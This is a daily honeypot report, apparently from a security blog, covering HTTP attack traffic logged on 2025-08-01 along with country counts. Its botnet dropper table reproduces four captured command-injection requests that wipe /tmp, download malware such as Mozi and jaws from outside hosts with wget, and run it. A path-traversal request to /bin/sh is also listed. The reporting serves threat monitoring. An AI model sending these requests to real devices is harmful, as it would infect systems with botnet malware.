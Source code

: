 ```yaml
---
title: "Report: 2025-08-01 "
date: 2025-08-01
desciption: "Report: 2025-08-01" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-01 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 6 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 420 requests were recorded during the day, originating from 4 different countries, with a peak of 102 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| SG               | Germany            |
| SG               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                      |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.219.103.48    | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 45.230.66.106   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://45.230.66.106:10345/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 114.33.242.234  | GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd+/tmp;wget+http://unjiproxy.p-e.kr:6969/selftbk.sh+-O-|sh HTTP/1.1                                         |
| 123.139.117.155 | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                    |
|----:|----------------------:|:---------------------------------------------------------------------------|
|  24 |                     2 | POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1 |
|  62 |                     1 | GET /Odin/http/call1754066243 HTTP/1.1                                     |
|  63 |                     1 | GET /OdinHttpCall1754066243 HTTP/1.1                                       |
|  66 |                     1 | GET /odinhttpcall1754066243 HTTP/1.1                                       |
| 163 |                     1 | \x00\x0E\x08\x17\x7F\xF8\xB8\xC3BaL\x00\x00\x00\x00\x00                    |
| 164 |                     1 | \x00\x0E8\x17\x7F\xF8\xB8\xC3BaL\x00\x00\x00\x00\x00                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   102 | US                 |
|  1 |                    53 | GB                 |
|  2 |                    45 | PH                 |
|  3 |                    34 | DE                 |
|  4 |                    19 | PL                 |
|  5 |                    19 | CA                 |
|  6 |                    18 | BG                 |
|  7 |                    16 | FR                 |
|  8 |                    15 | NL                 |
|  9 |                    13 | SG                 |
| 10 |                    12 | RO                 |
| 11 |                     9 | ZA                 |
| 12 |                     8 | SC                 |
| 13 |                     7 | HK                 |
| 14 |                     6 | MU                 |
| 15 |                     6 | AU                 |
| 16 |                     5 | CN                 |
| 17 |                     3 | BE                 |
| 18 |                     3 | KZ                 |
| 19 |                     3 | ID                 |
| 20 |                     3 | GH                 |
| 21 |                     3 | LT                 |
| 22 |                     2 | MN                 |
| 23 |                     2 | BR                 |
| 24 |                     2 | CH                 |
| 25 |                     1 | CZ                 |
| 26 |                     1 | IR                 |
| 27 |                     1 | AR                 |
| 28 |                     1 | SE                 |
| 29 |                     1 | ES                 |
| 30 |                     1 | TW                 |
| 31 |                     1 | TR                 |
| 32 |                     1 | JP                 |
| 33 |                     1 | AZ                 |
| 34 |                     1 | KR                 |
| 35 |                     1 | MC                 |
| 36 |                     1 | IN                 |
